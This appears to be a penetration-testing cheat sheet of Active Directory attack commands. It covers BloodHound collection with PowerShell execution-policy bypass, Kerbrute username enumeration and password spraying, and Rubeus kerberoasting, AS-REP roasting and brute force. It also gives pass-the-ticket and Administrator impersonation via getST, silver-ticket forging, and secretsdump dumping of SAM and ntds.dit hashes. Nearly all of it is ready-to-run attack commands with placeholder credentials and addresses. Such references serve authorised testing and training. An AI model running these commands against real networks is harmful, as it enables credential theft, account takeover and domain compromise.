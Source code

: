 



## AD Enumeration

### Active Directory Domain

```bash
# Query the AD and collect all objects using .EXE
.\SharpHound.exe -CollectionMethod all 
# Query the AD and collect all objects using .PS1
powershell -ep bypass
. .\SharpHound.ps1
Invoke-BloodHound -CollectionMethod All
# Get AD Users
python3 GetADUsers.py -all domain.tld/john:password123 -dc-ip 10.10.10.1
# Kerberos Enum User
nmap -p 88 --script=krb5-enum-users --script-args krb5-enum-users.realm='domain.tld',userdb=usernames.txt 10.10.10.1
# Kerbrute enumerate usernames
kerbrute userenum -d domain.tld usernames.txt
# Kerbrute spray password across usernames
kerbrute passwordspray -d domain.tld domain_users.txt password123
# Kerbrute spray username across passwords
kerbrute bruteuser -d domain.tld passwords.txt john
# kerberoastable users (users with SPN, ticket is returned to crack)
Rubeus.exe kerberoast /outfile:hashes.txt
# AS-Reproast
Rubeus.exe asreproast /format:hashcat /outfile:hashes.txt
# Rubeus-Brute through Kerberos PreAuth
Rubeus.exe /users:usernames.txt /passwords:passwords.txt /domain:domain.tld /outfile:found_passwords.txt
# requests Kerberos ticket
Rubeus.exe asktgt /domain:domain.tld /user:john /rc4:2a3de7fe356ee524cc9f3d579f2e0aa7 /ptt
# request Service Ticket save it as ccache
python3 getST.py -hashes :NTHASH -spn www/server01.domain.tld -dc-ip 10.10.10.1 -impersonate Administrator domain.tld/john
# requests Kerberos ticket
python3 getTGT.py domain.tld/john -dc-ip 10.10.10.1 -hashes :NTHASH
# list users with SPN attribute set and attempt to set SPN if SPN attribute is not set
python3 targetedKerberoast.py -d domain.tld -u user -p password --dc-ip 10.10.10.1
# output a TGT into the specified ccache
python3 gettgtpkinit.py domain.tld/DC01\$ -cert-pfx crt.pfx -pfx-pass password123 out.ccache
# request a TGS for yourself using Kerberos U2U, get as-rep key from gettgtpkinit.py
KRB5CCNAME=out.ccache
python3 getnthash.py domain.tld/DC01\$ -key <as-rep key>
# craft silver ticket for a specific service
python3 ticketer.py -nthash <NTHASH> -domain-sid <SID> -domain domain.tld -dc-ip 10.10.10.1 -spn cifs/domain.tld john
# Dump SAM & SYSTEM
python3 secretsdump.py domain.tld/john:password123@10.10.10.1
# dump ntds.dit
python3 secretsdump.py -ntds C:\Windows\NTDS\ntds.dit -system C:\Windows\System32\Config\system -dc-ip 10.10.10.1 domain.tld/john:password123@10.10.10.2
# fetch Service Principal Names that are associated with normal user accounts
python3 GetUserSPNs.py test.local/john:password123 -dc-ip 10.10.10.1 -request
# monitor real-time changes to the LDAP objects
SharpLDAPmonitor.exe /dcip:10.10.10.1 /user:domain.tld\john /pass:password123

```